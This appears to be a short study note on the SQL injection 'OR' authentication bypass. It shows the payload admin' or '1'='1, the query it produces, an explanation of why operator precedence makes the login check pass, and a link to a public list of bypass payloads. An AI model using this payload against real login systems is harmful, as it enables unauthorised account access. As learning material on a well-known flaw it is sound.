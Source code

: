 ##### OR injection
```sql
admin' or '1'='1
```
This makes sure query returns true to bypass authentication
This returns
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```
AND takes precedence over OR, so 1 = 1 is true, AND with password = something is false, OR with username = admin is true.

SQLi auth bypass payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass


